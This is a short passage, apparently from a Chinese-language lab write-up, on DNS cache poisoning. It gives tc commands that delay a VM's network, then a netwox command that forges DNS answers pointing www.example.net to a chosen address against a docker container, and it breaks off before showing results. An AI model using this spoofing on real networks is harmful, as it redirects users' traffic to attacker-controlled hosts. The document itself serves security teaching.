 ## 3.3 DNS缓存中毒

### 3.3.1 配置

为了提高攻击成功率，使用如下命令，可以提高虚拟机与互联网的延迟，使得攻击信息早于正常DNS响应到达

```bash
// 增加网络延迟1000ms
sudo tc qdisc add dev ens33 root netem delay 1000ms

// 删除网络延迟
sudo tc qdisc del dev ens33 root 

// 查看所有的延迟
sudo tc qdisc show dev ens33
```

### 3.3.2 netwox攻击

目标域名: www.example.net

ip地址: 2.3.4.5

权威域名服务器: ns.example.net

ip地址: 55.66.77.88

目的服务器：172.17.0.2

网卡: docker0

netwox命令

````bash
sudo netwox 105 -h "www.example.net" -H "2.3.4.5" -a "ns.example.net" -A "55.66.77.88" --filter "src host 172.17.0.2" --device "docker0" --ttl 600
````

攻击效果：

攻击前：
